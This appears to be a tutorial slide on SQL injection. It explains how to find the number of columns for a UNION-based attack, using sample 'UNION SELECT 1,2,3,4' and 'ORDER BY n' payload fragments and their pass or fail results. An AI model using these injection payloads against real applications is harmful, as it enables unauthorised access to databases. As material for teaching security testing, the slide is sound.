

How many columns do you have?
The bruteforce approach is straightforward, just try doing a select with increasingly more arguments until it works:
… UNION SELECT 1			-> fail
… UNION SELECT 1,2 		-> fail
… UNION SELECT 1,2,3 		-> fail
… UNION SELECT 1,2,3,4 	-> ok
The ORDER BY approach uses the fact that ordering can be specified with the index of the column in the table, the query will fail if the index is greater than the number of columns:
… ORDER BY 50	-> fail
… ORDER BY 25 	-> fail
… ORDER BY 10 	-> ok
… ORDER BY 15 	-> ok
… ORDER BY 17	-> fail
… ORDER BY 16	-> ok
The table has 16 columns!